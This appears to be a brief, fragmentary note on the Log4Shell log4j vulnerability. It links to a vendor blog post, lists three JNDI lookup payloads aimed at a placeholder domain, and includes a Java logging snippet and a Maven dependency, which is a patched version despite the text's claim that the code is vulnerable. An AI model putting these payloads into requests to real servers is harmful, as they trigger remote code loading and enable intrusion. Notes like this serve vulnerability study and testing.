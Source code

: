 
### log4j
https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/

`${jndi:ldaps://somedomain.com}`

`${jndi:rmi://somedomain.com}`

`${jndi:dns://somedomain.com}`

```
LOGGER.info("msg: {}", args);
    // TODO: implement bot commands
    String cmd = System.getProperty("cmd");
    if (cmd.equals("help")) {
      doHelp();
      return;
    }
	
```
	
server side:logo é vuneravel ao log4j

	
```
 <dependency>
        <groupId>org.apache.logging.log4j</groupId>
        <artifactId>log4j-core</artifactId>
        <version>2.17.2</version>
    </dependency>

	
```

The Java application uses log4j (Maven package [log4j-core](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core)) version 2.0.0-2.12.1 or 2.13.0-2.14.1

https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-core/2.17.2/

chatbot/src/main/resources/log4j2.xml
